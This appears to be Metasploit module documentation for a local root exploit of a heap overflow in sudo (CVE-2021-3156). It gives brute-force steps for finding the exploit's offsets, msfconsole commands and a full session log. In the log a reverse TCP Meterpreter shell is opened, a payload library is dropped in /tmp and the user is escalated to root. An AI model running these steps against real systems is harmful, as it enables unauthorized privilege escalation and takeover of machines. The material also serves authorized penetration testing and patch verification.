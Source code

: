 ## Vulnerable Application

A heap based buffer overflow exists in the sudo command line utility that can be exploited by a local attacker
to gain elevated privileges. The vulnerability was interested in July of 2011 and affects version 1.8.2
through 1.8.31p2 as well as 1.9.0 through 1.9.5p1 in their default configurations. The technique used by this
implementation leverages the overflow to overwrite a `service_user` struct in memory to reference an attacker
controlled library which results in it being loaded with the elevated privileges held by sudo.

### Manual Target

The exploit requires a number of lengths / offsets to function correction. The manual target can be used to specify
these values if they are known. To identify the values, use the `brute.sh` script from the original PoC repository at
[blasty/CVE-2021-3156][1].

On the target system, the rough steps include:

1. Clone the repository, install necessary build tools and GNU parallel (`sudo apt-get install parallel` on Debian-based
  systems)
1. Do: `make brute`
1. Do: `./brute.sh ...` with the desired options to bruteforce, (see the [README.md][2])
1. Wait for the bruteforce to complete, hopefully finding a successful option.

    Successful results will be written to the `success.txt` file. They will look something like this:
    
    ```
    ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
    
    using target: Manual ['/usr/bin/sudoedit'] (56, 57, 60, 200)
    ** pray for your rootshell.. **
    [+] bl1ng bl1ng! We got it!
    ```
    
    In this case `56, 57, 60, 200` are the required values.

1. From Metasploit
    1. Do: `set TARGET Manual` to specify the manual target
    1. Do: `set Lengths 56, 57, 60, 200` to set the explicit lengths (substitute the numbers as necessary)

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/local/cve_2021_3156_sudo`
1. Set the necessary options (target, payload, etc.)
1. Do: `run`

## Options

### WritableDir

A directory where you can write files. The necessary source code will be uploaded and compiled to here, along with the
payload library.

### Lengths
*This is an advanced option.*

The lengths to set as used by the manual target. See the "Manual Target" section.

## Scenarios

### Ubuntu 20.04.1 x64

```
msf6 exploit(multi/ssh/sshexec) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] 192.168.159.34:22 - Sending stager...
[*] Command Stager progress -  47.24% done (410/868 bytes)
[*] Sending stage (3008420 bytes) to 192.168.159.34
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.34:45494) at 2021-02-03 17:14:42 -0500
[!] Timed out while waiting for command to return
[*] Command Stager progress - 100.00% done (868/868 bytes)

meterpreter > getuid
Server username: smcintyre @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/ssh/sshexec) > use exploit/linux/local/cve_2021_3156_sudo 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2021_3156_sudo) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/cve_2021_3156_sudo) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(linux/local/cve_2021_3156_sudo) > set TARGET 1
TARGET => 1
msf6 exploit(linux/local/cve_2021_3156_sudo) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Writing '/tmp/CEmBxB3Sec.c' (3666 bytes) ...
[*] Writing '/tmp/libnss_X/P0P_SH3LLZ_ .so.2' (532 bytes) ...
[*] Sending stage (3008420 bytes) to 192.168.159.34
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.34:45496) at 2021-02-03 17:15:29 -0500
[+] Deleted /tmp/CEmBxB3Sec.c
[+] Deleted /tmp/CEmBxB3Sec

meterpreter > getuid
Server username: root @ ubuntu (uid=1000, gid=1000, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

[1]: https://github.com/blasty/CVE-2021-3156
[2]: https://github.com/blasty/CVE-2021-3156/blob/da68f7c1a2961595a3226b903f1fc180b8824255/README.md#bruteforce-target-finding-experimental
